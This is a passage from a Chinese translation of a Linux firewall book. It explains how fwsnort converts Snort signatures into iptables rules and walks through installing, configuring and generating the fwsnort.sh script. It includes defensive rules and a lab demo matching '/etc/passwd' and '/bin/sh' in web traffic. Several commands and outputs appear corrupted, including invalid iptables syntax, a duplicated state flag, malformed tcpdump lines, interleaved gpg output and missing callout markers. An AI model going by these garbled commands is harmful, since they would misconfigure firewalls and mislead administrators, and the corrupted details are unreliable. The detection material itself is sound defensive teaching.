[1] --state [INVALID|ESTABLISHED|NEW|RELATED|UNTRACKED][,...]
State(s) to match
```

以下示例展示了 `state` 扩展的使用方法，以便在 INPUT 链中尽可能早地接受属于已建立 TCP 会话的数据包：

```
[iptablesfw]# iptables -I INPUT 1 -p tcp -m state --state ESTABLISHED -j ACCEPT
```

### replace

`replace` Snort 选项仅在 Snort 以内联（inline）模式运行且部署在数据包数据路径的内联位置时适用。在这种模式下，Snort 成为一个真正的入侵防御系统（IPS），能够仅在数据包经过 Snort 检测引擎检查后，才将其转发进出受保护的网络。`replace` 选项作用于应用层数据，允许将由 `content` 选项检测到的字节序列替换为另一个等长的不同序列。

要求字符串等长的原因在于，在现有 TCP 会话的上下文中，序列号和确认号必须保持有效。如果替换为较长的字符串，接收方接收到的数据将多于发送方实际发送的数据，这将破坏 TCP 协议。

在内联运行的 Snort 规则中，为了将字符串 `/usr/local/bin/bash` 替换为 `EqualLengthString!!`，我们将使用两个选项：`content: /usr/local/bin/bash` 和 `replace: EqualLengthString!!`。这种操作仅在对字符串匹配扩展应用了 fwsnort 项目提供的 `--replace-string` 补丁时，iptables 才会支持。该补丁仅与 2.4 内核兼容，并且在 iptables “匹配（match）”的概念上采取了灵活处理，因为匹配不应修改数据包数据；该补丁的未来版本将实现一个新的 iptables 标签，允许修改网络数据。与此同时，在旧的 2.4 内核上，以下命令允许 iptables 在所有 80 端口的 TCP 流量中，将字符串 `/bin/sh` 替换为 `/abc/de`（这在实际系统中永远不会对应于二进制文件的实际路径）：

```
[iptablesfw]# iptables -A INPUT -p tcp --dport 80 -m string --string "/bin/sh" --replace-string "/abc/de" -j ACCEPT
```

上述 iptables 规则的目标设置为 ACCEPT，因此即使在内核中发生了修改，数据包仍被允许继续发送到目的地。目的地的 Web 服务器随后可以决定如何处理接收到的奇怪的 `/abc/de` 路径；很可能会生成一个应用程序错误代码并返回给客户端。

在传输过程中替换应用层数据需要重新计算传输层校验和；对于 TCP 来说这是强制性的，对于 UDP 则是可选的，取决于原始数据包是否首先计算了 UDP 校验和。内联数据替换提供了静默破坏某些漏洞利用的可能性，这是一种比生成中断会话的流量或实例化防火墙阻断规则更隐蔽的攻击响应方法——因为后两种方法动静很大，攻击者很容易察觉。

### resp

由 `flexresponse` 和 `flexresponse2` Snort 检测插件提供的 `resp` 选项允许 Snort 主动响应触发签名匹配的网络流量。可用的响应包括向会话发送 TCP RST/ACK 数据包以将其拆除（回顾 `flexresponse2` 插件始终发送 RST/ACK 数据包而非 RST 数据包；参见第 63 页的“RST vs. RST/ACK”讨论），以及针对 UDP 流量生成 ICMP 网络、主机或端口不可达数据包。iptables 的 REJECT 目标通过 `-j REJECT --reject-with tcp-reset` 参数支持 TCP 连接的此类功能，通过 `-j REJECT --reject-with *-unreachable`（其中 `*` 可以是 `net`、`host` 或 `port`）支持 UDP 数据包。

`REJECT` 目标与 Snort 响应能力的一个区别是，TCP RST 数据包只能发送到连接的一侧。也就是说，如果一个数据包匹配 iptables REJECT 规则，TCP RST 数据包将仅发送给匹配数据包中包含的源 IP 地址，该 IP 地址可能是连接的客户端侧或服务器侧。如果由于本地内核级过滤机制（或因为中间跳数将其丢弃）导致 TCP 栈从未收到传入的 RST 数据包，那么会话将无法被正确关闭。幸运的是，REJECT 目标还会丢弃匹配的数据包，因此 TCP 会话将无法进一步进行。

## 注意

`REJECT` 扩展的未来版本（或由 fwsnort 项目提供的补丁）将支持向 TCP 连接的两侧发送 TCP RST 数据包。如果一侧行为异常，并且因为试图不顾另一侧是否尝试关闭而继续 TCP 连接而过滤掉传入的 RST，那么向相反方向发送的 RST 将强制连接关闭（假设只有一侧在不遵守规则）。

以下 iptables 命令结合使用字符串匹配扩展，对任何包含字符串 `/etc/passwd` 的 Web 会话执行 RST 操作：

```
[iptablesfw]# iptables -A INPUT -p tcp --dport 80 -m string --string "/etc/passwd" --algo bm -j REJECT --reject-with tcp-reset
```

关于 `REJECT` 目标与 fwsnort 结合使用的更多详细信息规则集可以在 [第 11 章](#) 中找到。

## 强制终止 "/ETC/PASSWD" Web 会话

恶意系统可能会过滤由远程 iptables 防火墙生成的传入 RST 或 RST/ACK 数据包，我们将在第 201 页的“DROP 与 REJECT 目标”中详细讨论这一点。这里我们简要演示一下 `REJECT` 目标在面对一个过滤传入 TCP RST 数据包的 iptables 防火墙时是如何工作的。我们按如下方式设置两个系统（客户端和服务器）：在服务器系统上，我们使用 Netcat 在 80 端口运行一个 TCP 服务器；在客户端系统上，我们使用 Netcat 将字符串 `/etc/passwd` 发送到服务器。在服务器上，iptables 被配置为匹配 `/etc/passwd` 字符串并重置（RST）连接：

```
[server]# iptables -I INPUT 1 -p tcp --dport 80 -m string --string "/etc/passwd" --algo bm -j REJECT --reject-with tcp-reset
```

在客户端，传入的 RST 数据包在被本地 TCP 栈接收之前被丢弃：

```
[client]# iptables -I INPUT 1 -p tcp --tcp-flags RST RST -j DROP
```

现在我们在服务器系统上启动 Netcat 和 tcpdump，并从客户端向服务器发送 `/etc/passwd` 字符串。❶ 处的数据包是来自服务器 iptables 的第一个 RST 数据包，其余数据包显示，尽管客户端过滤了传入的 RST，但会话仍无法继续，因为包含 `/etc/passwd` 字符串的数据包已被丢弃。

当客户端 TCP 栈反复重传 `/etc/passwd` 数据包时，服务器上的 iptables 每次都会响应另一个 RST 数据包，再次发送另一个 RST（例如见 ❷）。


```
[server]# nc -l -p 80
[client]# echo "/etc/passwd" | nc 192.168.10.1 80
[server]# tcpdump -i eth1 -l -nn port 80
01:10:24.479149 IP 192.168.10.2 > 192.168.10.1:80 > S 2179395558:2179395558(0) win 5840 <mss 1460,sack=nio,timestamp 47589528 > 0,nop,nop,nop,mss=1460,nop>
01:10:24.479334 IP 192.168.10.1:80 > 192.168.10.2:52645 S 2434738187:2434738187(0) ack 2179395559 win 5792 <mss 1460,sack=nio,timestamp 103569687585920 S>
01:10:24.481620 IP 192.168.10.2 > 192.168.10.1:80 > ack 1 win 5840 <nop,nop,timestamp 47589528 > 103569687585920>
01:10:24.488462 IP 192.168.10.1:80 > 192.168.10.2:52645 P: P 1:2(1) ack 1 win 5792 <nop,nop,timestamp 103569687585920 475895287 >
01:10:24.489010 IP 192.168.10.2 > 192.168.10.1:80 > P 1:13(12) ack 1 win 5840 < nop,nop,timestamp 47589528 > 103569687585920>
01:10:24.488941 IP 192.168.10.1:80 > 192.168.10.2:32655: R 2434738188:2434738188(0) win 0
01:10:24.490785 IP 192.168.10.2 > 192.168.10.1:32655 > R 2434738188:2434738188(0) ack 2 win 5840 <nop,nop,timestamp 47589528 1035696959>
01:10:24.490820 IP 192.168.10.1:80 > 192.168.10.2:32655: P 2:3(1) ack 1 win 5792 <nop,nop,timestamp 10356971 47589527 >
01:10:24.496571 IP 192.168.10.2 > 192.168.10.1:80 > ack 3 win 5840 <nop,nop,timestamp 47589530 10356971>
01:10:24.683462 IP 192.168.10.2.32655 > 192.168.10.1.80: P 1:13(12) ack 3 win 5840 <nop,nop,nop,timestamp 47589578 10356971>
00:10:24.683506 IP 192.168.10.1.80 > 192.168.10.2.32655: R 2434738190:2434738190(0) win 0
```

## 不支持的 Snort 规则选项

到目前为止，我们已经证明 iptables 非常适合在内核中完全模拟相当大比例的 Snort 规则语言。然而，Snort 中有许多选项在 iptables 中没有良好的等效实现，我们将在本章末尾讨论这些选项。

## 注意

下文讨论的一些选项，如 `ack`、`fragbits` 以及部分 `byte_test` 和 `byte_jump` 功能，可以通过 iptables 的 `u32` 扩展（在本章前面提到过）来模拟。此外，之前讨论过的 `id`、`seq`、`icmp_id` 和 `icmp_seq` 等选项也可以通过 `u32` 扩展模拟；它们允许完整的匹配和过滤支持，而不仅仅是 iptables 能够记录这些首部字段。一旦 `u32` 扩展被移植到 2.6 内核，它将在 fwsnort 的后续版本中得到支持。

不支持的选项包括以下内容：

- **`asn1`**

`asn1` 关键字允许 Snort 将签名与解码后的摘要语法一 (ASN.1) 数据（常用于 SMB 协议）相关联。在 iptables 中没有好的方法来模拟与此 Snort 关键字相关的复杂处理。

- **`byte_jump`**

`byte_jump` 选项允许由数据包数据本身决定 Snort 在应用下一个模式匹配或 `byte_test` 之前需要跳过多少字节的数据。这意味着偏移量不需要预先知道，因此协议本身可以指定后续测试执行的位置。这对于使用可变长度字段的协议（如 DNS）特别有用。与上述 `byte_test` 关键字一样，使用 `u32` 匹配是使用 iptables 模拟 `byte_jump` 测试的最佳方式，但我们必须等待 `u32` 匹配在 2.6 内核中可用。

- **`byte_test`**

此选项使 Snort 能够对数据包数据中特定偏移量执行数值测试。虽然 `pcre` 选项可以用于模拟 `byte_test` 提供的一部分功能（例如，正则表达式 `".{20}5\d{3}"` 将匹配从第 21 个字节开始的任何大于 4,999 的四位数），但通常应避免这样做，因为对于此类操作，`byte_test` 的性能通常优于 `pcre`。`u32` 匹配也可以在一定程度上模拟这一点，但它在 2.6 内核中尚不可用。

- **`flowbits`**

此选项被 Snort 用于在规则之间传递状态信息。例如，一个初始 Snort 规则可能会检测明文协议的登录阶段是否已完成，如果是，则通过 `flowbits` 选项设置一个 `LoggedIn` 标签。然后，另一个完全不同的 Snort 规则也可以使用 `flowbits` 选项来测试 `LoggedIn` 标签是否已设置，然后再对数据包数据执行额外的签名测试。这类操作可以通过将 iptables 中的 `conmark` 目标与字符串匹配扩展相结合来在有限程度上模拟，但这目前尚未被 fwsnort 支持。L7-filter 数据包分类器项目也可以在一定程度上模拟这一点（参见 http://l7-filter.sourceforge.net）。

- **`fragbits`**

此选项允许 Snort 对 IP 首部中的分片位执行测试。虽然 iptables 可以应用匹配标准来确定数据包是否被分片（通过 `-f` 参数），但这种能力远不如 Snort 的实现强大。此外，如果在 Linux 内核中启用了连接跟踪，数据包在被 iptables 看到之前会自动解分片。这是连接跟踪工作的前提，因为只有完整的数据包才能被分类为属于某个连接或不属于。从某种意义上说，这是一个优势，因为受此类内核保护的网络会自动阻止大多数依赖于分片数据包的 IDS 规避尝试。

- **`isdataat`**

此选项指示 Snort 仅测试在特定偏移量处是否存在数据。偏移量可以用绝对值指定（例如 `30`），也可以由之前的模式匹配导出（例如 `30,relative`）。

- **`pcre`**

这代表 `Perl Compatible Regular Expression`（与 Perl 兼容的正则表达式），允许 Snort 将复杂的正则表达式（可能包含反向引用和其他密集型操作）应用于数据包数据。从稳定性的角度来看，将此功能直接放入 Linux 内核是有风险的；在用户空间应用程序中执行此类操作更有意义。

- **`rpc`**

这允许 Snort 解码远程过程调用 (RPC) 流量中包含的应用程序、过程和程序版本。iptables 的 `rpc` 扩展允许在 iptables 策略中匹配过程调用号，但该模块仅适用于 2.6 之前的内核，且尚未被 fwsnort 支持。

***

$^5$ ulogd 项目是一个基于 netlink 套接字的架构，允许将整个数据包从内核发送到用户空间守护进程 `ulogd`，在那里数据包可以用 PCAP 甚至 MySQL 数据库等各种格式记录。有关更多信息，请参阅 http://www.netfilter.org/projects/ulogd/index.html。

$^6$ iptables `u32` 扩展允许 iptables 匹配 IP 数据包中的任意字节并对其应用数值测试（因此，尽管没有 IP ID 匹配，例如，您可以使用 `u32` 扩展来模拟一个），但它尚未正式集成到 2.6 内核中。

$^7$ 请参阅 L7-filter 数据包分类器项目 http://l7-filter.sourceforge.net。

$^7$ 从技术上讲，字符串匹配的 iptables `--from` 和 `--to` 参数在以太网网络的数据链路层 MAC 字段开始处应用。

$^8$ 这里有一些技术细节。例如，TCP ACK 数据包的平均首部长度明显小于 TCP SYN 数据包的首部长度，因为最大分段大小 (MSS) 等连接初始化参数在已建立的 TCP 连接中不会被再次通告。TCP ACK 有时仅包含时间戳选项和几个 NOP。

$^9$ Snort 社区通常将流预处理器的特定版本称为 `stream4` 或 `stream5`，但此处通常不需要这种区分。

$^{10}$ TCP 连接劫持有时也可用于攻破系统，但此类攻击较为冷门，且通常可通过使用应用层加密来挫败。

## 总结思考

在目前的讨论中，我们已经对 iptables 如何紧密地模拟 Snort IDS 中的许多数据包匹配选项有了很好的了解，但我们还没有看到由 fwsnort 构建的完整规则集在实际运行中的情况。这正是我们将在下一章中涵盖的内容。附录 B 中也包含了一个由 fwsnort 构建的完整 iptables 规则集。

# 第 10 章. 部署 FWSNORT

在完成了第 9 章关于在 iptables 中模拟 Snort 规则选项的理论讨论之后，我们将在本章讨论如何让 fwsnort 真正地发挥作用！具体来说，我们将讨论 fwsnort 的管理，并演示如何使用它来指导 iptables 检测与 Snort 签名规则集相关的攻击。

## 安装 fwsnort

与 psad 一样，fwsnort 自带了一个安装程序 `install.pl`。该程序处理安装的所有方面，包括保留之前安装 fwsnort 的配置、安装两个 Perl 模块（`Net::IPv4Addr` 和 `IPTables::Parse`），以及（可选地）从 http://www.bleedingsnort.com 下载最新的 Bleeding Snort 签名集。如果您运行的是基于 RPM 的 Linux 发行版，也可以通过 RPM 安装 fwsnort。

## 注意

截至 2005 年 3 月，Snort 签名规则集仅作为付费服务的一部分提供。在那之前，Snort 规则可以在 Snort 官方网站 (http://www.snort.org) 免费获得。许多安全应用程序（包括 fwsnort）利用这些免费规则，通过提供自动更新功能来与最新的 Snort 规则同步。虽然现在已无法通过这种方式自动更新，但在撰写本文时，由 Bleeding Snort 项目分发的最新 Snort 规则集仍然可以（免费）下载。

fwsnort 安装程序将 `Net::IPv4Addr` 和 `IPTables::Parse` Perl 模块放置在 `/usr/lib/fwsnort` 目录下，以免弄乱系统的 Perl 库树。（这与第 5 章讨论的 psad 所采用的安装策略类似。）

为了使用 fwsnort，您需要能够使用 iptables 的字符串匹配能力。如果您运行的是 2.6.14 或更高版本的内核，字符串匹配可能已经编译进您的内核中。

检查运行中的内核是否支持字符串匹配扩展的一个简单方法是，尝试针对一个不存在的 IP 地址创建一条字符串匹配的 iptables 规则（这样就不会干扰任何真实的网络通信），如下所示：

```
[iptablesfw]# iptables -A INPUT 1 -i lo -d 127.0.0.2 -m string --string "testing" --algo bm -j ACCEPT
```

如果返回错误 `iptables: no chain/target/match by that name`，则说明运行中的内核不支持该扩展。这可以通过在内核配置文件中启用 `CONFIG_NETFILTER_XT_MATCH_STRING` 选项，重新编译，然后启动进入新内核来解决（推荐的 iptables 内核编译选项请参见第 14 页的“内核配置”）。如果上述命令执行成功，则说明 iptables 字符串匹配与您的内核兼容，此时您应该删除该新规则：

```
[iptablesfw]# iptables -D INPUT 1
```

要安装 fwsnort-1.0，请执行以下命令。（此安装程序输出经过了部分简化，但展示了将原始 Snort 规则集分区的各种文件，例如 `backdoor.rules` 和 `web-cgi.rules`。）

```
[iptablesfw]$ cd /usr/local/src
[iptablesfw]$ wget http://www.cipherdyne.org/fwsnort/download/fwsnort-1.0.tar.bz2
[iptablesfw]$ wget http://www.cipherdyne.org/fwsnort/download/fwsnort-1.0.tar.bz2.md5
[iptablesfw]$ wget http://www.cipherdyne.org/fwsnort/download/fwsnort-1.0.tar.bz2.asc
[iptablesfw]$ md5sum -c fwsnort-1.0.tar.bz2.md5
gpg --verify fwsnort-1.0.tar.bz2.asc
gpg: Signature made Sat 21 Apr 2000 09:29:02 AM EDT using DSA key ID A742839F
gpg: Good signature from "Michael Rash <mr@cipherdyne.org>"
gpgd:
fwsnort-1.0.tar.bz2: OK
aka "Michael Rash <mr@cipherdyne.org>"
[iptablesfw]$ tar xfj fwsnort-1.0.tar.bz2
[iptablesfw]$ su -
Password:
[iptablesfw]# cd /usr/local/src/fwsnort-1.0
[iptablesfw]# ./install.pl
[+] mkdir /etc/fwsnort
[+] mkdir /etc/fwsnort_rules
[+] Installing the Net::IPv4Addr Perl module
[+] Installing the IPTables::Parse Perl module
[+] Would you like to download the latest Snort rules from
http://www.bleedingsnort.com?
((y/n)? ) y
-->22:01:11-- http://www.bleedingsnort.com/bleeding-all.rules
Resolving www.bleedingsnort.com... 69.44.153.29
Connecting to www.bleedingsnort.com[69.44.153.29]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 292,192 bytes [text/plain]
100%[====================================>] 292,192 109.94K/s
22:01:17 [109.94 KB/s] "bleeding-all.rules" saved [292,192/292,192/292,192]
[+] Copying all rules files to /etc/fwsnort/snort_rules
[+] Installing sump.rules
[+] Installing finger.rules
[+] Installing info.rules
[+] Installing ddos.rules
[+] Installing virus.rules
[+] Installing icmp.rules
[+] Installing dns.rules
[+] Installing rpc.rules
[+] Installing backdoor.rules
[+] Installing scan.rules
[+] Installing shellcode.rules
[+] Installing web-client.rules
[+] Installing web-cgi.rules
[+] Installing exploit.rules
[+] Installing attack-responses.rules
[+] Installing web-attacks.rules
[+] Installing fwsnort.8 man page as /usr/share/man/man8/fwsnort.8
[+] Compressing manpage /usr/share/man/man8/fwsnort.8
[+] Copying fwsnort.conf -> /etc/fwsnort/fwsnort.conf
[+] Copying fwsnort -> /usr/sbin/fwsnort
[+] fwsnort will generate an iptables script located at:
/etc/fwsnort/fwsnort.sh when executed.
[+] fwsnort has been successfully installed!
```

## 运行 fwsnort


在内核提供字符串匹配支持的系统上安装好`fwsnort`后，我们现在可以让`fwsnort`为我们工作了。话不多说，我们从命令行启动`fwsnort`。通常情况下，`fwsnort`以`root`身份执行，因为默认情况下它会查询`iptables`以确定运行内核中哪些扩展可用，然后相应地调整翻译过程（以下部分输出经过简化）：

```
[iptablesfw]# fwsnort
Snort Rules File		Success	Fail	Ipt_apply	Total
[+] attack-responses.rules	15	2	0	17
[+] backdoor.rules			7	2	1	69
[+] bad-traffic.rules		10	3	0	13
[+] bleeding-all.rules	1076	573	5	1649
[+] exploit.rules			31	43	0	74
[+] web-cgi.rules			286	62	0	348
[+] web-client.rules			7	10	0	17
[+] web-coldfusion.rules	35	0	0	35
[+] web-frontpage.rules		34	1	0	35
[+] web-iis.rules			103	11	0	114
[+] web-misc.rules			265	61	0	326
[+] web-php.rules			78	48	0	126
[+] xil.rules				2	0	0	2
			2725	1761	91	4486
[>] Generated iptables rules for 2725 out of 4486 signatures: 60.74%
[>] Found 91 applicable snort rules to your current iptables policy.
[>] Logfile: /var/log/fwsnort.log
[>] Iptables script: /etc/fwsnort/fwsnort.sh
```

关于`fwsnort`输出首先需要注意的一点是，对于每个`Snort`规则文件，都会打印出成功和失败翻译的规则数量（`Success`和`Fail`）、适用于当前运行的`iptables`策略的规则数量（`Ipt_apply`），以及该规则文件中的`Snort`规则总数（`Total`）。

在上述输出的最后，`fwsnort`打印了能够成功翻译的`Snort`规则总数（4,486条中的2,725条）。只要`Linux`系统的内核在编译时支持`iptables`的`string`、`length`、`tos`、`ttl`和`ipv4options`匹配，就可以获得60%的翻译率。

您还会在`fwsnort`输出的末尾看到这样一句话：`Found 91 applicable snort rules to your current iptables policy`。这条消息表明`fwsnort`解析了系统上当前运行的`iptables`规则集，以便剔除那些本来就不会被`iptables`允许通过的`Snort`规则。例如，如果`iptables`策略不允许连接到内部`HTTP`服务器，那么翻译处理从外部网络发起的入站`HTTP`连接的`Snort`规则就没什么用处；因此，`fwsnort`会在翻译过程中忽略此类规则。

## 注意

由于通过`iptables`命令构建的策略可能非常复杂且难以解析，`fwsnort`可能并不总能正确判断某种任意类型的流量是否将被允许通过。您可以使用`fwsnort --no-ipt-sync`命令行选项，在不参考底层`iptables`策略的情况下，强制翻译尽可能多的`Snort`规则。

最后，`fwsnort`的输出会显示两个文件路径：`/var/log/fwsnort.log`和`/etc/fwsnort/fwsnort.sh`。

`fwsnort.log`文件包含有关翻译过程的信息，可用于确定特定`Snort`规则翻译失败的原因。例如，在`bleeding-all.rules`文件中由`SID 2003306`标识的`Snort`规则包含`pcre`选项，因此与`iptables`不兼容。这种不兼容性在`fwsnort.log`文件的日志条目中有所记录：

```
[-] SID: 2003306 Unsupported option: "pcre" at line: 120. Skipping rule.
```

## 注意

`fwsnort.sh`脚本是`fwsnort`的真正“核心”；它是由`fwsnort`生成的一个`Bourne shell`脚本，负责执行必要的`iptables`命令以构建等效的`iptables`策略。该脚本的内部机制在第179页的“[fwsnort.sh的结构](Structure%20of%20fwsnort.sh)”中进行了讨论，完整的`fwsnort.sh`脚本可以在[附录B](Appendix%20B)中找到。

## fwsnort配置文件

`fwsnort`的主配置文件`/etc/fwsnort/fwsnort.conf`定义了网络、端口号、系统二进制文件的路径（例如`iptables`的路径）以及正确执行所需的其他关键信息。

与`psad`一样，`fwsnort.conf`文件采用简单的键/值格式，许多关键字和语义与`Snort`自身的配置文件相同。例如，`HOME_NET`和`EXTERNAL_NET`关键字的默认值均为通配符`any`，且`IP`地址和/或网络的列表可以用大括号括起来。（几乎所有`Snort`规则都使用`HOME_NET`和`EXTERNAL_NET`关键字的某种组合。）该文件还支持变量解析概念；也就是说，例如`HTTP_SERVERS`映射到`HOME_NET`，而`HOME_NET`进而映射到特定的网络（或多个网络）或通配符`any`。

您可以在下方（以及[http://www.cipherdyne.org/linuxfirewalls](http://www.cipherdyne.org/linuxfirewalls)）找到一个完整的`fwsnort.conf`文件示例，本书中所有`fwsnort`的使用示例都将引用此配置文件。在这种情况下，部署`fwsnort`的`iptables`防火墙所保护的网络是`C`类网络`192.168.10.0/24`（见[图1-2](Figure%201-2)），因此我们相应地设置了`HOME_NET`。

```bash
[iptablesfw]# cat /etc/fwsnort/fwsnort.conf
# This is the configuration file for fwsnort. There are some similarities
# between this file and the configuration file for Snort.
# $Id: fwsnort.conf 356 2007-03-20 01:31:28z mbr $

### fwsnort treats all traffic directed to / originating from the local
### machine as going to / coming from the HOME_NET in Snort rule parlance.
### If there is only one interface on the local system, then there will be
### no rules processed via the FWSNORT_FORWARD chain because no traffic
### would make it into the FWSNORT_FORWARD chain.
HOME_NET 192.168.10.0/24;
EXT_NET any;
### List of servers. fwsnort supports the same variable resolution as Snort.
HTTP_SERVERS {$HOME_NET};
SMTP_SERVERS {$HOME_NET};
DNS_SERVERS {$HOME_NET};
SQL_SERVERS {$HOME_NET};
TELNET_SERVERS {$HOME_NET};
### ROI AIM server nets
AIM_SERVERS {64.12.25.0/24, 64.12.25.0/24, 64.12.26.14/24, 64.12.28.0/24, 64.12.209.0/24, 64.162.161.0/24, 64.163.0/24, 205.188.5.0/24, 205.188.9.0/24};
### Configurable port numbers
SSH_PORTS 22;
HTTP_PORTS 80;
SHELLCODE_PORTS {$0};
ORACLE_PORTS 1521;
### Define average packet lengths and maximum frame length. This is used
### for length matching emulation of the Snort size option.
AVG_IP_HEADER_LEN 20; ### IP options are not usually used.
AVG_TCP_HEADER_LEN 40; ### Includes options
MAX_FRAME_LEN 1500;
### Use the WHITELIST variable to define a list of hosts/networks that
### should be completely ignored by fwsnort. For example, if you want
### to whitelist the IP address 192.168.10.1 and the network 10.1.1.0/24,
### you will use (note that you can specify multiple WHITELIST
### variables, one per line)
WHITELIST 192.168.10.1, 10.1.1.0/24;
WHITELIST NONE
### Use the BLACKLIST variable to define a list of hosts/networks that
### that for which fwsnort should DROP or REJECT all traffic. For
### example, to DROP all traffic from the 192.168.110.0/24 network,
### you use
BLACKLIST 192.168.110.0/24 DROP;
### To have fwsnort REJECT all traffic from 192.168.110.0/24,
### you would use
BLACKLIST 192.168.110.0/24 REJECT;
BLACKLIST NONE;
### Define the jump position in the built-in chains to jump to
### the fwsnort chains.
FWSNORT_INPUT_JUMP 1;
FWSNORT_OUTPUT_JUMP 1;
FWSNORT_FORWARD_JUMP 1;
### iptables chains (these do not normally need to be changed)
FWSNORT_INPUT FWSNORT_INPUT;
FWSNORT_INPUT_ESTAB FWSNORT_INPUT_ESTAB;
FWSNORT_OUTPUT FWSNORT_OUTPUT;
FWSNORT_OUTPUT_ESTAB FWSNORT_OUTPUT_ESTAB;
FWSNORT_FORWARD FWSNORT_FORWARD;
FWSNORT_FORWARD_ESTAB FWSNORT_FORWARD_ESTAB;
### System binaries
shCmd /bin/sh;
echoCmd /bin/echo;
tarCmd /bin/tar;
wgetCmd /usr/bin/wget;
unameCmd /usr/bin/uname;
ifconfigCmd /sbin/ifconfig;
iptablesCmd /sbin/iptables;
```

在上述➊处，`fwsnort.conf`文件设置了`IP`和`TCP`报头的平均长度。这是必要的，因为`iptables`的长度匹配从`IP`报头开始，而`Snort`的`dsize`选项仅适用于与数据包关联的应用层数据。通过指定平均报头长度，`fwsnort`可以近似模拟`dsize`选项以辅助翻译过程。

在➋处，我们可以添加白名单和黑名单；请参阅第190页的“[设置白名单和黑名单](http://example.com)”。

在➌处，定义了每个内置链中跳转到`fwsnort`链的跳转规则位置。默认情况下，跳转规则位于每个链的第一条规则，但您可以通过修改这些变量来根据喜好进行更改。除非您的`iptables`策略具有某些必须在`fwsnort`检查数据包之前满足的检查或过滤要求，否则通常不需要这样做。

## fwsnort.sh的结构

由`fwsnort`生成的`Bourne shell`脚本`/etc/fwsnort/fwsnort.sh`分为五个部分。第一部分是由注释组成的报头，其中包含关于`fwsnort.sh`脚本用途的简短介绍、用于生成`fwsnort.sh`的`fwsnort`命令行参数以及`fwsnort`的版本：

```bash
[iptablesfw]# cat /etc/fwsnort/fwsnort.sh
#!/bin/sh

# File: /etc/fwsnort/fwsnort.sh

# Purpose: This script was aut-generated by fwsnort and implements an
# iptables ruleset based upon Snort rules. For more information,
# see the fwsnort man page or the documentation available at
# http://www.cipherdyne.org/fwsnort.

# Generated with: fwsnort --no-ipt-sync
# Generated on host: iptablesfw
# Generated at: Sun Jun 15 23:12:43 2007

# Author: Michael Rash <mbr@cipherdyne.org>

# Version: 1.0 (file revision: 381)
```

`fwsnort.sh`脚本的第二部分定义了`iptables`和`echo`系统二进制文件的路径。这些路径继承自`fwsnort.conf`配置文件中的`iptablesCmd`和`echoCmd`关键字，`fwsnort`在构建`fwsnort.sh`之前会检查这些路径是否合理。然而，`fwsnort.sh`脚本并不一定必须在安装`fwsnort`的同一系统上执行。事实上，从安全角度来看，在专用防火墙设备上，如果不从运维角度严格需要，最好不要安装`Perl`或任何其他功能强大的解释器或编译器。

配置部分允许针对最终部署`fwsnort.sh`的系统轻松调整路径：

```bash
ECHO=/bin/echo
IPTABLES=/sbin/iptables
```

`fwsnort.sh`的第三部分负责为`fwsnort`规则构建专用的`iptables`链。除下文讨论的跳转规则外，所有`fwsnort`规则都添加到这些自定义链中，以保持与任何现有`iptables`策略的严格分离。

赋予`fwsnort`链的名称大致描述了每个链内执行的流量检查类型。例如，`FWSNORT_INPUT`链用于检查指向本地系统的流量，因此受`iptables` `INPUT`链管辖。同样，`FWSNORT_OUTPUT`链仅适用于源自防火墙系统自身的数据包（通过`OUTPUT`链），而`FWSNORT_FORWARD`链管辖旨在通过本地系统转发的数据包（通过`FORWARD`链）。

## TCP连接状态与fwsnort链

由于通过使用`Snort` `flow: established`选项将`Snort`规则应用于已建立的`TCP`会话具有相对重要性，`fwsnort`为此类规则创建了特殊链。这些链的名称只需在前面提到的每个`fwsnort`链名后附加字符串`_ESTAB`。一旦所有`fwsnort`链创建完成，就会添加使用`iptables`状态匹配（`state match`）的跳转规则，将属于已建立会话的`TCP`数据包发送到相应的`_ESTAB`链。例如，`FWSNORT_INPUT`链中的数据包会被跳转到`FWSNORT_INPUT_ESTAB`链，如下所示：

（注：原文末尾示例不完整，无进一步内容可排版）


```bash
################# Create fwsnort iptables chains. #################
$IPTABLES -N FWSNORT_INPUT 2>/dev/null
$IPTABLES -F FWSNORT_INPUT
$IPTABLES -N FWSNORT_INPUT_ESTAB 2>/dev/null
$IPTABLES -F FWSNORT_INPUT_ESTAB
$IPTABLES -N FWSNORT_OUTPUT 2>/dev/null
$IPTABLES -F FWSNORT_OUTPUT
$IPTABLES -N FWSNORT_OUTPUT_ESTAB 2>/dev/null
$IPTABLES -F FWSNORT_OUTPUT_ESTAB
$IPTABLES -N FWSNORT_FORWARD 2>/dev/null
$IPTABLES -F FWSNORT_FORWARD
$IPTABLES -N FWSNORT_FORWARD_ESTAB 2>/dev/null
$IPTABLES -F FWSNORT_FORWARD_ESTAB
################# Inspect ESTABLISHED tcp connections. #################
$IPTABLES -A FWSNORT_INPUT -p tcp -m state --state ESTABLISHED -j FWSNORT_INPUT_ESTAB
$IPTABLES -A FWSNORT_OUTPUT -p tcp -m state --state ESTABLISHED -j FWSNORT_OUTPUT_ESTAB
```

```bash
$IPTABLES -A FWSNORT_FORWARD -p tcp -m state --state ESTABLISHED --state ESTAB -j FWSNORT_FORWARD_ESTAB
```

## 签名检测与日志生成

`fwsnort.sh` 的第四部分是执行重量级数据包检测的地方。本节中的所有规则都将被添加到上述一个 fwsnort 链中。每条规则包含来自 Snort 规则头和规则选项的元素，例如源和目的 IP 地址及端口号，以及内容字符串、长度、ttl 或 tos 匹配等。

默认情况下，由 fwsnort 翻译的每条 Snort 规则都会生成一条使用 `LOG` 目标的 iptables 命令，并配有一个旨在向用户传达签名细节的日志前缀。fwsnort 构建的日志前缀包含 fwsnort 链中的规则编号和 Snort 签名 ID 值，并指明该签名是否记录自一个已建立的 TCP 连接。

例如，`FWSNORT_FORWARD_ESTAB` 链中的第一条规则包含一个由“卷序列号”签名（Snort ID 1292）构建的日志前缀，形式如下：`{1} SID1292 ESTAB`。

默认情况下，每条 iptables `LOG` 规则都利用注释匹配（comment match）来为规则标注 Snort 的 sid、msg、classtype、rev 和 reference 字段，以及 fwsnort 的版本号。例如，对于 Snort 规则 ID 1292，相关的注释为：

> sid:1292; msg:ATTACK-RESPONSES directory listing; classtype: bad-unknown; rev: 9; FWS: 1.0

以下是 `fwsnort.sh` 脚本的签名部分。（请注意，iptables 规则是根据相应的 Snort 规则文件进行组织的。）

```bash
################ attack-responses.rules ###################

#echo "[1]" Adding attack-responses rules."
#!!! alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"ATTACK-RESPONSES directory listing"; flow:established; content:"Volume Serial Number"; classtype:bad-unknown; sid:1292; rev:9;)
